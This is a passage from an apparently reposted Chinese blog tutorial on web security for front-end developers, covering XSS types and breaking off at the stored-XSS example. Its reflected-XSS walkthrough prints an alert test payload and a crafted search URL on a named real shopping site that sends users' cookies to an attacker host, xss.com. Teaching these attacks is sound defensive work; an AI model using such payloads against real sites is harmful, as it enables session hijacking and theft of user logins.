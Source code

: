 ```yaml
---
title: 【转】关于Web安全的三个攻防姿势
date: 2018-09-05 11:27:55
tags: 安全
---
```


关于Web安全的问题，是一个老生常谈的问题，作为离用户最近的一层，我们大前端确实需要把手伸的更远一点。

我们最常见的Web安全攻击有以下几种

1. XSS 跨站脚本攻击
2. CSRF 跨站请求伪造
3. clickjacking 点击劫持/UI-覆盖攻击
下面我们来一一分析

### XSS 跨站脚本攻击

跨站脚本攻击(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

#### 分类
* Reflected XSS(基于反射的XSS攻击)
* Stored XSS(基于存储的XSS攻击)
* DOM-based or local XSS(基于DOM或本地的XSS攻击)

#### Reflected XSS(基于反射的XSS攻击)
主要通过利用系统反馈行为漏洞，并欺骗用户主动触发，从而发起Web攻击。

举个栗子：
1. 假设，在严选网站搜索商品，当搜索不到时站点会做“xxx未上架提示”。如下图。
![avatar](/images/web安全/wKiom1nnWhCS-ibvAACN4UQ6Qjg077.png)
2. 在搜索框搜索内容，填入
```
&lt;script&gt;alert('xss')&lt;/script&gt;
```
, 点击搜索。
3. 当前端页面没有对填入的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
![avatar](/images/web安全/wKiom1nnWhrRHqBCAABlYWd2xGM273.png)
(当然上图是模拟的)
以上3步只是“自娱自乐”，XSS最关键的是第四步。
4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
```
http://you.163.com/search?keyword=&lt;script&gt;document.location=<span class="string">'http://xss.com/get?cookie='</span>+document.cookie&lt;/script&gt;
```
如果受骗的用户刚好已经登录过严选网站，那么，用户的登录cookie信息就已经发到了攻击者的服务器(xss.com)了。当然，攻击者会做一些更过分的操作。

#### Stored XSS(基于存储的XSS攻击)

Stored XSS和Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

再举个栗子：
